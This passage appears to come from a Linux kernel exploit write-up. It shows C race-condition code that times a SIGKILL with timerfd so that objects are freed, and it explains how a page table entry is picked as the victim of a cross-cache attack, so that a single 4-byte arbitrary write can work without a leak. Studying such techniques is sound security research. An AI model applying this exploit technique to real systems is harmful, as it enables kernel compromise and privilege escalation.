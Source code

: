 ```cpp
    if(connect(socket_b, (struct sockaddr *)&connect_addr, sizeof(connect_addr)) < 0)
        perror("connect");
} else {
    // race 2
    read(communicate_pipe[0], comm_buf, 3);

    struct itimerspec it = {};
    int tfd;
    int kill_rand = v;

    FAIL_IF((tfd = timerfd_create(CLOCK_MONOTONIC, 0)) < 0);
    unsigned long tmp;
    it.it_value.tv_sec = 0;
    it.it_value.tv_nsec = kill_rand * NS_PER_JIFFIE;
    FAIL_IF(timerfd_settime(tfd, 0, &it, NULL) < 0);

    read(tfd, &tmp, sizeof(tmp));

    kill(conn_pid, SIGKILL);
    printf("socket b kill count: %d\n", kill_rand);
    wait(NULL); // All dummy obj will be freed because of the kill
}
close(communicate_pipe[0]), close(communicate_pipe[1]);
```

## 2. Find Victim Object for Bypass Kernel Panic \w Pagetable
As previously discussed, the object allocated through **cross-cache attack** must be initialized to **NULL**, with the exception of the `peer_buf_alloc` field, which must contain a non-NULL value. Additionally, the exploit must be performed with a **single 4-byte arbitrary address write (AAW)** without requiring a leak.

To meet these criteria, the **Page Table Entry (PTE)** has been selected as the target. PTEs are inherently **NULL** by default, and when using **mmap**, values are written in 8-byte units with the following structure:  

| **Bit Field** | **Description**                              |  
|---------------|----------------------------------------------|  
| **Bit 0**     | **P (Present):** Indicates page presence (1: present). |  
| **Bit 1**     | **R/W (Read/Write):** Read/write permission.            |  
| **Bit 2**     | **U/S (User/Supervisor):** User access permission.     |  
| **Bit 3**     | **PWT (Page Write-Through):** Write-through status.    |  
| **Bit 4**     | **PCD (Page Cache Disable):** Cache usage status.      |  
| **Bit 5**     | **A (Accessed):** Indicates page access.               |  
| **Bit 6**     | **D (Dirty):** Indicates page modification.            |  
| **Bit 7**     | **PAT (Page Attribute Table):** PAT attribute status.  |  
| **Bit 8**     | **G (Global):** Global page indication.                |  
| **Bit 9-11**  | **Reserved:** Unused.                                  |  
| **Bit 12-51** | **Physical Address:** The physical address.            |  
| **Bit 52-62** | **Available:** Reserved for kernel or software use.    |  
| **Bit 63**    | **NX (No eXecute):** Code execution prevention bit.    |  
